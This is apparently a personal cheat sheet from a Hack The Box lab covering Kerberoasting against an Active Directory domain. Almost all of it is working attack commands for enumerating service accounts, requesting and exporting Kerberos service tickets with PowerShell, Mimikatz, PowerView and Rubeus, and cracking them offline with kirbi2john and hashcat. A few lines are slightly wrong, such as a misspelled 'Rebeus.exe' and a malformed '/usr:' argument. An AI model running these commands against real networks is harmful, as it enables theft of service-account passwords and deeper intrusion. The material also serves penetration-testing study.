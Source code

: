 ## <span style="color:yellow">Manual</span>

#### Enumerating SPNs with setspn.exe
```shell
C:\htb> setspn.exe -Q */*
```

#### Targeting a Single User / Loading ticket to memory to retrieve 

```powershell
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

#### Retrieving All Tickets Using setspn.exe

```powershell
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

## Extracting Tickets from Memory with Mimikatz

```c#
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export  
```

#### Preparing the Base64 Blob for Cracking

```shell
Sauuron@htb[/htb]$ echo "<base64 blob>" |  tr -d \\n 
```


#### Preparing the Base64 Blob for Cracking

```shell
Sauuron@htb[/htb]$ cat encoded_file | base64 -d > sqldev.kirbi
```

#### using kirbi2john.py

```shell
Sauuron@htb[/htb]$ python2.7 kirbi2john.py sqldev.kirbi
```

#### Modifiying crack_file for Hashcat

```shell
Sauuron@htb[/htb]$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

#### Cracking the Hash with Hashcat

```shell
Sauuron@htb[/htb]$ hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

## <span style="color:yellow">Automated / Tool Based Route</span>

#### Using PowerView to Extract TGS Tickets

```powershell
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```


#### Using PowerView to Target a Specific User

```powershell
PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```


#### Exporting All Tickets to a CSV File

```powershell
PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

#### Using Rubeus

```powershell
PS C:\htb> .\Rubeus.exe kerberoast /stats
```

#### Using the /nowrap Flag

```powershell
PS C:\htb> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

#### Cracking with AES256 ($KRB5TGS\$18\$)

```shell
Sauuron@htb[/htb]$ hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```

#### Using the /tgtdeleg Flag

```powershell
PS C:\htb> .\Rebeus.exe kerberoast /tgtdeleg /usr/:testspn /nowrap
```



